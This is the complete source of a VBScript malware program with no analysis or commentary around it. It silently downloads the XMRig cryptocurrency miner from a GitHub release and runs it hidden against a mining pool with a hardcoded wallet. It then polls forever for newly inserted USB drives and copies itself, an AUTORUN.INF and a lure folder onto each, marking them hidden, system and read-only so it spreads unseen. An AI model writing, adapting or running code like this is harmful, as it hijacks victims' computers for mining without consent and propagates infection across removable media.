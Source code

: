 Option Explicit
On Error Resume Next

Dim downloadUrl, zipFileName, extractedFolderName, exeName, minerArgs, autorunFile, vbsFile, openFolder
Dim http, stream, fso, wshShell, shellApp, scriptPath, zipFilePath, extractPath, exePath, command
Dim srcAutorunPath, srcVbsPath, srcOpenFolderPath
Dim wmiService, initialDrives, colDisks, objDisk, driveLetter
Dim destAutorun, destVbs, destFolder
Dim currentDrives, key
Dim zipFolder

downloadUrl = "https://github.com/tvhbes/the-tvhbes/releases/download/tvhbes/xmrig-6.24.0-windows-x64.zip"
zipFileName = "xmrig-6.24.0-windows-x64.zip"
extractedFolderName = "xmrig-6.24.0"
exeName = "xmrig.exe"
minerArgs = "-o pl-tarirx.luckypool.io:9118 -u 12NDDQyKMZCu3E8JhSajwi6gBpvBSQUUJxhsrYXCgJKCCFXTZMFQXEDV28Db2owQSpckJKqdvAa3YdDfbjidMTP5Skt -p mcj -a rx/0 -k --donate-level 1"
autorunFile = "AUTORUN.INF"
vbsFile = "sami.vbs"
openFolder = "OpenFile"

Set fso = CreateObject("Scripting.FileSystemObject")
Set wshShell = CreateObject("WScript.Shell")
scriptPath = fso.GetParentFolderName(WScript.ScriptFullName)

zipFilePath = fso.BuildPath(scriptPath, zipFileName)
extractPath = fso.BuildPath(scriptPath, "")

' Correctly define paths based on user's directory structure
exePath = fso.BuildPath(fso.BuildPath(scriptPath, extractedFolderName), exeName)
srcAutorunPath = fso.BuildPath(scriptPath, autorunFile)
srcVbsPath = fso.BuildPath(scriptPath, vbsFile)
srcOpenFolderPath = fso.BuildPath(scriptPath, openFolder)

If Not fso.FileExists(exePath) Then
    Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
    If Err.Number = 0 Then
        http.SetTimeouts 10000, 30000, 60000, 60000
        http.Open "GET", downloadUrl, False
        http.Send
        If http.Status = 200 Then
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write http.ResponseBody
            stream.SaveToFile zipFilePath, 2
            stream.Close
            Set stream = Nothing
            
            Set shellApp = CreateObject("Shell.Application")
            If fso.FileExists(zipFilePath) Then
                Set zipFolder = shellApp.NameSpace(zipFilePath)
                Set destFolder = shellApp.NameSpace(extractPath)
                destFolder.CopyHere zipFolder.Items, 20
            End If
            Set shellApp = Nothing
        End If
        Set http = Nothing
    End If
End If

If fso.FileExists(exePath) Then
    command = """" & exePath & """ " & minerArgs
    wshShell.Run command, 0, False
End If

Set initialDrives = CreateObject("Scripting.Dictionary")
Set wmiService = GetObject("winmgmts:\\.\root\cimv2")
Set colDisks = wmiService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DriveType=2")

For Each objDisk in colDisks
    initialDrives.Add objDisk.DeviceID, True
Next

Do
    WScript.Sleep 5000
    Set colDisks = wmiService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DriveType=2")
    
    For Each objDisk in colDisks
        driveLetter = objDisk.DeviceID
        If Not initialDrives.Exists(driveLetter) Then
            initialDrives.Add driveLetter, True
            WScript.Sleep 10000 ' Wait 10 seconds after detection
            
            destAutorun = fso.BuildPath(driveLetter & "\", autorunFile)
            destVbs = fso.BuildPath(driveLetter & "\", vbsFile)
            destFolder = fso.BuildPath(driveLetter & "\", openFolder)
            
            fso.CopyFile srcAutorunPath, destAutorun, True
            fso.CopyFile srcVbsPath, destVbs, True ' Added missing line to copy sami.vbs
            fso.CopyFolder srcOpenFolderPath, destFolder, True
            
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destAutorun & """", 0, True
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destVbs & """", 0, True
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destFolder & """ /s /d", 0, True
        End If
    Next
    
    Set currentDrives = CreateObject("Scripting.Dictionary")
    For Each objDisk in colDisks
        currentDrives.Add objDisk.DeviceID, True
    Next

    For Each key in initialDrives.Keys
        If Not currentDrives.Exists(key) Then
            initialDrives.Remove(key)
        End If
    Next
Loop
